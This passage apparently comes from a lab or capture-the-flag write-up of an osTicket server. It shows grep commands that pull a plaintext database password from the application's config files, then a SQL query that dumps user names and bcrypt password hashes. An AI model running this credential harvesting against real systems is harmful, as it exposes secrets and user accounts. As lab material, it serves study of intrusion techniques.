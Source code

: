 ```txt
/var/www/osticket/upload/bootstrap.php:            $ferror=sprintf('Unable to connect to the database — %s',db_connect_error());
/var/www/osticket/upload/bootstrap.php:        }elseif(!db_select_database(DBNAME)) {
/var/www/osticket/upload/bootstrap.php:            $ferror=sprintf('Unknown or invalid database: %s',DBNAME);
/var/www/osticket/upload/bootstrap.php-        }
/var/www/osticket/upload/bootstrap.php-
/var/www/osticket/upload/bootstrap.php-        if($ferror) //Fatal error
/var/www/osticket/upload/bootstrap.php-            self::croak($ferror);
```

```bash
grep DBUSER /var/www/osticket/upload/*.php
```

```txt
/var/www/osticket/upload/bootstrap.php:        if (!db_connect(DBHOST, DBUSER, DBPASS, $options)) {
```

```bash
grep DBUSER /var/www/osticket/upload/*/*.php
```

```txt
/var/www/osticket/upload/include/ost-config.php:define('DBUSER','ost_user');
/var/www/osticket/upload/include/ost-sampleconfig.php:define('DBUSER','%CONFIG-DBUSER');
```

```bash
grep DBPASS /var/www/osticket/upload/*/*.php
```

```txt
/var/www/osticket/upload/include/ost-config.php:define('DBPASS','!H3lpD3sk123!');
/var/www/osticket/upload/include/ost-sampleconfig.php:define('DBPASS','%CONFIG-DBPASS');
```

... however, when connecting to the database with `ost_user:!H3lpD3sk123!`, we only get access to the osTicket database, which doesn't have any too interesting user accounts ...

```sql
SELECT  name, user_id, passwd 
FROM    ost_user_account a INNER JOIN ost_user u ON a.id = u.id;
```

```txt
+----------------------------------+---------+--------------------------------------------------------------+
| name                             | user_id | passwd                                                       |
+----------------------------------+---------+--------------------------------------------------------------+
| osTicket Support                 |       7 | $2a$08$WrlyoPMg.fFIsN.Tzpe/RODF6zNeZr8mvKE7B8ndVYTNTgfulhLL. |
| bob                              |      12 | $2a$08$tksdyYfeIl.PMmk5Bgp01.OFxAVnZC7j34G9Pss/ztZgc8FRtLRNu |
| 9ecfb4be145d47fda0724f697f35ffaf |      13 | $2a$08$UaEesO.ZsVaP6sq69nsAnOw39mIOPNGH8ofvDNhoB0ahIdZqe9ccq |
+----------------------------------+---------+--------------------------------------------------------------+
3 rows in set (0.000 sec)
```
